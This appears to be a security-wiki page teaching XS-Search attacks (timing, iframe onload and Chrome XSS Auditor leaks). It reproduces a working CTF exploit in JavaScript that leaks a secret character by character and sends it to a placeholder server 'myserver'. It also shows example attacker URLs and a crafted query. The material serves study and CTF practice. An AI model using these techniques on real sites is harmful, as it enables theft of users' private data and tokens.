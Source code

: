 # XS-Search

**The best resource to learn XS-Search is **[**https://xsleaks.dev/**](https://xsleaks.dev)

## XS-Search Time attack

Basically, you exploit a **CSRF vulnerability **to make a specific user access some **information **that the **victim can access** but you can't. Then, you **check **the **time **it take the request to be responded and depending on that you can know if the content was correctly accessed or not.

For example, imagine that the **admin of a web** page can **access all **the inside the **webfiles  **service and **you only **can access **yours**, and you want to know the **content **of a **file **that starts with the string "_**flag**_".

There is a **CSRF **vulnerability in the **seach by content** function and you can make the **admin visit any page**. Then, you could make the admin visit a malicious web server (yours) that will **exploit **the **CSRF **and will make the victim **search for **the file that starts with "_**flag**_". The attacker will make a **loop **so it will make the victim **search for every possibility** in: _flagX_. Then, if a character took **more time **that the rest, you can **asume **that it was the **correct **one and you can start a **new loop** with "_flag{X_" until you get the flag.

That is the **idea **but in the **real world **you need queries that retrive content take **much more time** that the queries that doesn't return anything.

For more information you can read:

* [https://medium.com/@luanherrera/xs-searching-googles-bug-tracker-to-find-out-vulnerable-source-code-50d8135b7549](https://medium.com/@luanherrera/xs-searching-googles-bug-tracker-to-find-out-vulnerable-source-code-50d8135b7549)
* [https://www.researchgate.net/publication/280738245\_Cross-Site_Search_Attacks](https://www.researchgate.net/publication/280738245\_Cross-Site_Search_Attacks)

## XS-Search - Iframe

Suppose that you can **insert **the **page **that has the **secret **content** inside an Iframe**.

You can **make the victim search** for the file that contains "_**flag**_" using an **Iframe** (exploiting a CSRF like in the prevous situation). Inside the Iframe you know that the _**onload event **_will be **executed always at least once**. Then, you can **change **the **URL **of the **iframe **but changing only the **content **of the **hash **inside the URL.

For example:

1. **URL1**: www.attacker.com/xssearch#try1
2. **URL2**: www.attacker.com/xssearch#try2

If the first URL was **successfully loaded**, then, when **changing **the **hash **part of the URL the **onload **event **won't be triggered** again. But **if **the page had some kind of **error **when **loading**, then, the **onload **event will be **triggered again**.

Then, you can **distinguish between **a **correctly **loaded page or page that has an **error **when is accessed.

If you can make the page error when the correct content is accessed and make it load correctly when any content is accessed, then you can make a loop to extract all the information without meassuring the time.

### Iframe Chrome XSS Auditor

Imagine the **same situation as in the Timing attack method **and you also know that the **admin **is using a **Chrome browser** (for example, Chrome-headless) **with Chrome XSS Auditor.**

Then, you can use **iframes **to make the victim **search **for the page containing "_**flagX**_" (beeing X **any **possible **character**)inside a loop, and you also add to the URL inside the iframes a **fake parameter **that **contains javascript code that will only appear when a valid content is retrived**.

For example, if when you **search for **the **content**_** "my file"**_ the web server responds with a page that **includes **this **javascript **code:

```
<script>console.log("you found someting");</script>
```

If you send a query like:

```
www.victim.com/search?q=my+file&fake_xss=<script>console.log("you+found+something");<script>
```

The **Chrome XSS Auditor will block** the page and an **error **will appear.

Then, you can use Chrome XSS Auditor to **launch an error **when a **valid response is sent** from the victim server. Then, with the **Iframe **trick you can **detect **when you have find a **file **that **contains **"_**flag**_" **and the next valid character**.

For more information: [https://www.youtube.com/watch?v=HcrQy0C-hEA](https://www.youtube.com/watch?v=HcrQy0C-hEA)

### Abusing Chrome XSS Auditor to steal tokens

Using the previous technique (with Chrome XSS Auditor) you can **steal chunks of the code returned to a user** (like tokens for example). For more information: [https://portswigger.net/blog/abusing-chromes-xss-auditor-to-steal-tokens](https://portswigger.net/blog/abusing-chromes-xss-auditor-to-steal-tokens)

Please, notice that you will steal information returned to a user and not any code from the web server.

## Custom Detection

In the **fbcft2019 **the **challenge**: **secret note keeper **was resolved exploiting a XS-Search.

You could make the **administrator **(a headlessChrome)** visit any page **and there was a **CSRF **vulnerable page that was able to** search files by content**. You also **knew **that the **flag starts **by _**fb{ **_and only the admin had access to it.

It was also important to notice that when you made a **search**, the results of the seach **appeared inside **an **iframe **(if something was found). And** none iframe appeared** if **anything **was found.

So, you could make the admin visit your exploit that will be a **loop of every possible charater** inside _fb{X _inside an iframe. And using:

```
contentWindow.frames.length != 0
```

You could **check **how **many iframes **where created **inside your iframe**, and** if an**y, then the **character **would be **correct **and you could start extracting the next one.

This is a code example of this from: [https://sectt.github.io/writeups/FBCTF19/secret_note_keeper/README](https://sectt.github.io/writeups/FBCTF19/secret_note_keeper/README)

```
<!DOCTYPE html>
<html>

<head>
    <title>fbctf secret note keeper</title>
</head>

<body></body>
<script>
var chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^`{|}~ ';
var charLen = chars.length;
var ENDPOINT = "http://challenges.fbctf.com:8082/search?query="
var x = document.createElement('iframe');

function search(leak, charCounter) {
    var curChar = chars[charCounter];
    //Chek if the character is valid
    x.setAttribute("src", 'http://challenges.fbctf.com:8082/search?query=' + leak + curChar);
    document.body.appendChild(x);
    console.log("leak = " + leak + curChar);
    //When the page inside the iframe is loaded
    x.onload = () => {
    //Check the number of iframes inside
        if (x.contentWindow.frames.length != 0) {
        // If 1 or more, then, the character was valid
            fetch('http://myserver/leak?' + escape(leak), {
                method: "POST",
                mode: "no-cors",
                credentials: "include"
            });
            leak += curChar
        }
        search(leak, (charCounter + 1) % chars.length);
    }
}

function exploit() {
    search("fb{", 0);
}

exploit();
</script>

</html>

```



## More information

{% embed url="https://github.com/xsleaks/xsleaks" %}

[https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)
